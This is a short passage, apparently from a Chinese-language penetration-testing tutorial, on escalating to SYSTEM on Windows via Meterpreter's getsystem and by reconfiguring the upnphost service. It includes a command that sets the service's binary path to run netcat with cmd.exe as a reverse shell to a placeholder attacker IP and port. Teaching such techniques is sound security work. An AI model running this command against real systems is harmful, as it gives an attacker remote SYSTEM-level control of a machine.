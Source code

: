 为了尝试获取管理员权限，我们输入以下命令：

```
getsystem
```

![](img/2e094e87-7be3-4f53-a2d8-8b35b8723e0f.png)

我们可以看到我们现在是`NT AUTHORITY\SYSTEM`。有时，这种技术可能不起作用，所以我们尝试另一种方法来在机器上获取系统。我们将看一些重新配置 Windows 服务的方法。

我们将使用**sc**（也称为**服务配置**）来配置 Windows 服务。

让我们看看`upnphost`服务：

```
sc qc upnphost
```

![](img/fa564bc4-6c7b-405c-9bd2-8aa28218926f.png)

首先，我们将我们的`netcat`二进制文件上传到系统上。一旦完成，我们可以使用我们的二进制文件更改正在运行的服务的二进制路径：

```
sc config upnphost binPath= "<path to netcat>\nc.exe -nv <our IP> <our port> -e C:\WINDOWS\System32\cmd.exe"
```

![](img/b59a25ff-43c7-4173-a313-82648ff44bad.png)

